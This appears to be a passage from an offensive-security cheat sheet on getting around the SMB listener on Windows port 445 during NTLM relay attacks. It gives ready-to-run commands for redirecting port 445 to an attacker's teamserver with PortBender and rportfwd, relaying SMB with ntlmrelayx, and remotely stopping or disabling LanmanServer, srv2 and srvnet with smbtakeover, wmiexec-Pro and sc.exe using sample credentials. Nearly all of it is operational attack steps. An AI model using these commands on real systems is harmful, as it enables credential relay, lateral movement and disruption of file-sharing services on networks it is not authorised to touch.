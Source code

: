 ## Common Issues Forwarding Port 445

By default the SMB service is listening on port 445, blocking any relaying attempt on this port

**Technique #1**: Forward port 445 on Windows machine using a driver

* [praetorian-inc/PortBender](https://github.com/praetorian-inc/PortBender) - TCP Port Redirection Utility

    ```ps1
    rportfwd 8445 127.0.0.1 445 # Machine 8445 redirected to Teamserver 445
    sudo proxychains python3 examples/ntlmrelayx.py -t smb://10.10.10.10 -smb2support # relay SMB to 10.10.10.10

    upload WinDivert32.sys
    upload WinDivert64.sys

    PortBender redirect 445 8445 # Redirect port 445 to 8445 on the machine
    ```

**Technique #2**: Disable SMB service, to easily portforward port 445

* [zyn3rgy/smbtakeover](https://github.com/zyn3rgy/smbtakeover) - BOF and Python3 implementation of technique to unbind 445/tcp on Windows via SCM interactions

    ```ps1
    python3 smbtakeover.py atlas.lab/josh:password1@10.0.0.21 check
    python3 smbtakeover.py atlas.lab/josh:password1@10.0.0.21 stop
    python3 smbtakeover.py atlas.lab/josh:password1@10.0.0.21 start

    bof_smbtakeover localhost check
    bof_smbtakeover 10.0.0.21 stop
    bof_smbtakeover localhost start

    rportfwd_local 445 127.0.0.1 445
    ```

* [Windows/sc.exe](https://learn.microsoft.com/fr-fr/windows-server/administration/windows-commands/sc-config)

    ```ps1
    sc config LanmanServer start= disabled
    sc stop LanmanServer
    sc stop srv2
    sc stop srvnet
    ```

* [XiaoliChan/wmiexec-Pro](https://github.com/XiaoliChan/wmiexec-Pro)

    ```ps1
    wmiexec-pro.py lab.local/admin@target.lab.local service -action disable -service-name "LanmanServer"
    wmiexec-pro.py lab.local/admin@target.lab.local service -action stop -service-name "LanmanServer"
    wmiexec-pro.py lab.local/admin@target.lab.local service -action stop -service-name "srv2"
    wmiexec-pro.py lab.local/admin@target.lab.local service -action disable -service-name "srvnet"
    wmiexec-pro.py lab.local/admin@target.lab.local service -action getinfo -service-name "srvnet"
    ```
